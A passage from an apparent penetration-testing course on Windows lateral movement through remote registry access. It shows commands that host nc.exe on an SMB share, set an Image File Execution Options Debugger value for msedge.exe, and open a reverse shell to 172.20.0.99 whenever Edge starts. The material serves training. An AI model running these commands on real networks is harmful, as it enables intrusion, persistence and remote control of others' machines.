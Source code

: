 PS C:\Windows\system32&gt;
</code></pre>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>Note:</b> The instructions for compiling <a href="https://github.com/frkngksl/NimExec">NimExec</a> are on GitHub. We will not provide an executable, but we encourage the student to complete the compilation process.</p>
</div>
</div>
<h3>Reg.exe</h3>
<p>Having remote access to the registry with write permissions effectively provides Remote Code Execution (RCE) capabilities. This process utilizes the <code>winreg</code> SMB pipe. Typically, the remote registry service is enabled by default only on server-class operating systems.</p>
<p>We can leverage the program launch handler to move laterally on the network, modifying a registry key to a program frequently used on the target host; we could achieve remote code execution almost immediately.</p>
<p>Before we proceed with <code>reg.exe</code> for lateral movement, we must set up an SMB server to host our payload. We will be using <a href="https://github.com/int0x33/nc.exe/">nc.exe</a> as our payload to get a reverse shell:</p>
<pre><code class="language-shell-session">[!bash!]$ sudo python3 smbserver.py share -smb2support /home/plaintext/nc.exe
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
</code></pre>
<p>In our attack host we execute our <code>Netcat</code> listener:</p>
<pre><code class="language-shell-session">[!bash!]$ nc -lnvp 8080
Listening on 0.0.0.0 8080
</code></pre>
<p>Now, we can execute <code>reg.exe</code> to add a new registry key to Microsoft Edge (<code>msedge.exe</code>). The idea is that once <code>msedge.exe</code> is executed, it will also execute our specified payload. We must specify the full path of the subkey or the entry to be added with the domain name <code>add \\&lt;domain&gt;\HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\msedge.exe</code>. <code>/v Debugger</code> specifies the name of the add registry entry and will ensure that our payload gets executed, <code>/t reg_sz</code> specifies the datatype of a Null-terminated string, and finally, we can type our payload <code>/d &lt;payload&gt;</code>:</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; reg.exe add "\\srv02.inlanefreight.local\HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\msedge.exe" /v Debugger /t reg_sz /d "cmd /c copy \\172.20.0.99\share\nc.exe &amp;&amp; nc.exe -e \windows\system32\cmd.exe 172.20.0.99 8080"

The operation completed successfully.
</code></pre>
<p>Once Microsoft Edge is opened by any user in the domain, we will instantly get a reverse shell:</p>
<pre><code class="language-shell-session">[!bash!]$ nc -lvnp 8080
Listening on 0.0.0.0 8080
Connection received on 172.20.0.52 51096
